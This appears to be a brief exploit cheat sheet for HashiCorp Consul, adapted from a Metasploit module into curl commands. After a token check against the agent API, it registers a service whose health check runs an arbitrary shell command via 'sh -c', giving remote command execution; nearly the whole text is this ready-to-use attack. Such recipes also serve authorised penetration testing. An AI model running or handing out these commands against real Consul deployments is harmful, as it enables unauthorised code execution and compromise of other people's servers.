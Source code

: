 #  Hashicorp Consul - Remote Command Execution via Services API


From [metasploit](https://github.com/rapid7/metasploit-framework/blob/8368accd5592392a6d8449490f222f4b269e3a3c/modules/exploits/multi/misc/consul_service_exec.rb) but using curl.

```bash
export CONSUL_TOKEN="CONSUL TOKEN HERE"

# check
curl http://127.0.0.1:8500/v1/agent/self -H "X-Consul-Token: $CONSUL_TOKEN"

export CMD="cmd here"

# exploit
curl http://127.0.0.1:8500/v1/agent/service/register \
  -H "X-Consul-Token: $CONSUL_TOKEN" \
  -H "Content-Type: application/json" \
  -X "PUT" \
  -d '{"ID":"12345","Name":"12345","Address":"127.0.0.1","Port":80,"check":{"Args":["sh","-c","$CMD"],"interval":"10s","Timeout":"86400s"}}'
```

